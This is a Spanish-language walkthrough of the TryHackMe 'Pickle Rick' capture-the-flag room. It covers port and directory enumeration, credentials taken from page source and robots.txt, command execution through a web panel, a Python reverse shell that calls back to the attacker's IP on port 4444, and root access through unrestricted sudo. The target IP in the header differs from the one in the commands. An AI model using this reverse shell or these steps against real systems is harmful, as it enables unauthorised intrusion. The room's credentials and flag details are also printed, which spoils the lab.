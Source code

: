 # Pickle Rick

**Platform:** TryHackMe  
**Difficulty:** Easy  
**IP:** 10.10.32.21 

---

## Información Inicial
- **Objetivo:** Obtener las tres recetas mediante pruebas de penetración.  
- **Herramientas iniciales:** `nmap`, `gobuster`, `wget`, `hydra`, `reverse shell`, `gtfobins`, `crackstation`, `netcat`, `find`.

---

Primero realizamos un escaneo básico con `nmap` para identificar los servicios abiertos:
```bash 
nmap -sC -sV -T5 10.10.29.248
```

![Escaneo con nmap para descubrimiento de puertos y servicios](screenshots/1.nmap.png)

Podemos ver como están abiertos los puertos 22 y 80. Por SSH no conseguimos gran cosa por lo que observaremos el sitio web

![Vista previa del sitio web](screenshots/2.sitio_web.png)

Aparentemente en el sitio web no encontramos nada relevante, pero teniendo como costumbre mirar el código fuente y las cookies cada vez que revisamos una web, encontramos un comentario con un nombre de usuario: `R1ckRul3s`

![Código fuente con secreto](screenshots/3.source_code.png)

Seguimos con la enumeración de directorios con `gobuster` en la que tenemos varios ficheros y directorios a los que podemos acceder, en especial `robots.txt`.

```bash 
gobuster dir -u http://10.10.29.248 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php,html
```
![Realización de enumeración de directorios con gobuster](screenshots/4.gobuster.png)

Obtenemos una cadena sospechosa, que posiblemente pueda ser la contraseña del usuario encontrado anteriormente:
`R1ckRul3s:Wubbalubbadubdub`

![Fichero robots.txt](screenshots/5.robots.txt.png)

Si accedemos al fichero /login.php, encontramos un inicio de sesión donde probar las credenciales, las cuáles son correctas.

![Inicio de sesión en sitio web con credenciales obtenidas](screenshots/6.login.png)

Nos redirige a un cuadro de texto en el que podemos ingresar comandos. Primero listamos el directorio actual y con `cat` obtendremos la primmera receta.

![Lista del directorio a través de cuadro de comandos](screenshots/7.commands.png)

```bash 
cat Sup3rS3cretPickl3Ingred.txt
```

![Primera clave mostrando el contenido del fichero](screenshots/8.first_key.png)

Otra opción es tratar de ingresar una `reverse shell` en el cuadro de comandos para obtener una shell en nuestra máquina local.

Ponemos netcat a la escucha por el puerto 4444.

```bash 
nc -lvnp 4444
```
En el cuadro de comandos, tras intentar muchas opciones, conseguimos ejecutar una reverse shell de python que nos devuelve una conexión en nuestra máquina local.

```bash 
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.29.132",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

![Comando de reverse shell en cuadro de sitio web](screenshots/10.reverse_shell_python3.png)

![Conexión con netcat](screenshots/11.netcat_connection.png)

Entramos en el directorio personal de rick y mostraremos el contenido del fichero que contiene el segundo ingrediente.

```bash 
cat 'second ingredients'
```

![Segunda receta que encontramos en el directorio rick](screenshots/12.second_key.png)

Es hora de escalar privilegios y el primer comando que se debe de ejecutar a la hora de elevar privilegios es:

```bash 
sudo -l
```

![Ejecución de sudo -l para comprobar permisos](screenshots/13.sudo-l.png)

Los resultados destacan que el usuario actual tiene permisos completos en el sistema, por lo que podemos acceder al usuario root fácilmente.

```bash 
sudo bash -i
```

Finalmente conseguimos acceso al usuario root y mostrar el tercer ingrediente.

![Ejecución de sudo -l para comprobar permisos](screenshots/14.root.png)

